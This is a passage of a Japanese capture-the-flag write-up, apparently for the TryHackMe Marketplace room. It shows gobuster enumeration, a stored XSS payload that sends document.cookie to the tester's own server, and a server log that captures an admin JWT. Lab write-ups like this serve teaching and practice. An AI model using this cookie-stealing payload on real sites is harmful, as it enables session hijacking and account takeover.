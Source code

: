 ### gobuster

```shell
cat /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt /usr/share/wordlists/SecLists/Discovery/Web-Content/big.txt | sort -u > ./dirlist.txt

gobuster dir -x=txt,php -u http://marketplace.thm -w ./dirlist.txt -t 30 -k

===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/ADMIN                (Status: 403) [Size: 392]
/admin                (Status: 403) [Size: 392]
/Admin                (Status: 403) [Size: 392]
/images               (Status: 301) [Size: 179] [--> /images/]
/login                (Status: 200) [Size: 857]
/Login                (Status: 200) [Size: 857]
/LogIn                (Status: 200) [Size: 857]
/LOGIN                (Status: 200) [Size: 857]
/messages             (Status: 302) [Size: 28] [--> /login]
/Messages             (Status: 302) [Size: 28] [--> /login]
/new                  (Status: 302) [Size: 28] [--> /login]
/NEW                  (Status: 302) [Size: 28] [--> /login]
/New                  (Status: 302) [Size: 28] [--> /login]
/robots.txt           (Status: 200) [Size: 31]
/robots.txt           (Status: 200) [Size: 31]
/signup               (Status: 200) [Size: 667]
/signUp               (Status: 200) [Size: 667]
/Signup               (Status: 200) [Size: 667]
/SignUp               (Status: 200) [Size: 667]
/stylesheets          (Status: 301) [Size: 189]
```

画面から把握できる以上の情報は無し。

## XSS

最初、メッセージ送信で下記の XSS を試みたが反応が無かった。

```
hello<script>document.write('<img src="http://10.13.85.243:8000/' + document.cookie + '">')</script>
```

NewItem の説明に同じ XSS を仕掛け、それを Report 機能で送信すると、michael のトークンを入手できた。

```sh
$ python -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.2.175 - - [18/Jun/2025 12:00:17] code 404, message File not found
10.10.2.175 - - [18/Jun/2025 12:00:17] "GET /token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOjIsInVzZXJuYW1lIjoibWljaGFlbCIsImFkbWluIjp0cnVlLCJpYXQiOjE3NTAyMTU2MTZ9.UHvEd9tjZlpdFMR3za55LFcV300uE2mf6vVztWOvJEU HTTP/1.1" 404 -
```

